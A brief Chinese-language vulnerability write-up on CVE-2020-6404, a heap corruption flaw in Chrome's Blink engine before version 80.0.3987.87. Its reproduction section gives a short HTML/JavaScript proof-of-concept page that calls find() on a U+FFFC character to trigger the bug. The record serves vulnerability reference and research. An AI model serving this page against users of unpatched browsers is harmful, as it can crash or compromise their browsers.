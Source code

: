 （CVE-2020-6404）Google Chrome Blink 缓冲区错误漏洞
===================================================

一、漏洞简介
------------

在80.0.3987.87之前的Google
Chrome中，Blink中的不当实现使远程攻击者有可能通过精心制作的HTML页面利用堆破坏。

二、漏洞影响
------------

Google Chrome 80.0.3987.87

三、复现过程
------------

### poc

    <!DOCTYPE html>
    <head>
    <script type="text/javascript">
    document.addEventListener("DOMContentLoaded", function(){
    find(decodeURIComponent('\uFFFC'));
    });
    </script>
    </head>
    <body>
    <legend></legend>
    </body>
    </html>

![](resource/(CVE-2020-6404)GoogleChromeBlink缓冲区错误漏洞/media/rId25.png)

